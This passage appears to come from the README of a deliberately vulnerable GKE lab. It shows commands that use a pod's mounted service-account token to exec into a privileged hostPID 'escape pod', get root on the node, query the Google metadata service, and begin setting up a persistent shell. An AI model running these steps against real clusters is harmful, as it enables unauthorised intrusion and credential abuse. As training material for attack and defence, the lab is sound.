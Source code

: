 **Access the node via the just created escape pod**
```
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.228.0.1/  exec -it priv-and-hostpid-exec-pod -n default  -- sh
```
```
Unable to use a TTY - input is not a terminal or the right kind of file
```
**Now you can run commands on the node**
```
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```

**Verifying you are on the node via the Google Metadata Service**
```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/hostname
```
```
gke-lunalectric-gke--lunalectric-pool-0e144d64-33rz.us-central1-f.c.<username>-development-3.internal
```

## Gaining a persistant bash shell on the node

**Confirming the hostname and IP address of the node**
First we need to find out on which node we are operating.
Which we can confirm by just asking for the hostname.

```bash
hostname
```
```
gke-lunalectric-gke--lunalectric-pool-06b8ea4c-hnlj
```

We can then either directly from the node try to confirm our external IP address via curl.
```bash
curl http://ifconfig.me/
```
```
35.226.180.169
```

Or, alternatively on the system from which we deployed the Terraform run:
```bash
gcloud compute instances list
```
```
NAME                                                 ZONE           MACHINE_TYPE  PREEMPTIBLE  INTERNAL_IP  EXTERNAL_IP     STATUS
gke-lunalectric-gke--lunalectric-pool-06b8ea4c-hnlj  us-central1-a  e2-medium                  10.10.10.3   35.226.180.169  RUNNING
lunalectric-attacker-vm-9cqc                         us-central1-a  e2-medium                  10.10.11.2   34.30.213.12    RUNNING
gke-lunalectric-gke--lunalectric-pool-66102390-zr4g  us-central1-c  e2-medium                  10.10.10.5   35.238.236.209  RUNNING
gke-lunalectric-gke--lunalectric-pool-24ac192f-x1gh  us-central1-f  e2-medium                  10.10.10.4   34.136.208.72   RUNNING

```
